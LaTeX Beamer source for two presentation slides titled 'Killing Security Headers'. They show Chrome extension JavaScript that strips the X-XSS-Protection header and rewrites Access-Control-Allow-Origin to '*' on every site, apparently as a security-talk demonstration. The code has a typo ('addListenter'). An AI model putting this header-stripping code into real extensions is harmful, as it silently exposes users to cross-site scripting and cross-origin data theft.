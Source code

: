 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{Insecurity Headers}
  \framesubtitle{Killing Security Headers}
  \begin{center}
    \begin{tcolorbox}[title=background.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        function removeMatchingHeaders(headers, regex, callback){
          for (let i = 0; i < headers.length; i++){
            if (headers[i].name.match(regex)){
              headers.splice(i, 1);
              callback(headers);
              return true;
            }
          }
          return false;
        }
        function remove_security_headers(details){
          removeMatchingHeaders(
            details.responseHeaders,
            /x-xss-protection/i,
            function(headers){
              return true;
            }
          );
        }
        chrome.webRequest.onHeadersReceived.addListenter(
          remove_security_headers,
          {urls: ['*://*/*']},
          ['blocking', 'responseHeaders']
        );
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Insecurity Headers}
  \framesubtitle{Killing Security Headers}
  \begin{center}
    \begin{tcolorbox}[title=background.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        //Replace Access-Control-Allow-Origin
        removeMatchingHeaders(
          details.responseHeaders,
          /access-control-allow-origin/i,
          function(headers){
            let header = {
              name: 'Access-Control-Allow-Origin',
              value: '*'
            };
            console.log('Replaced Header: ' + '{' + header.name + ':' + header.value + '}');
            headers.push(header);
            return true;
          }
        );
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
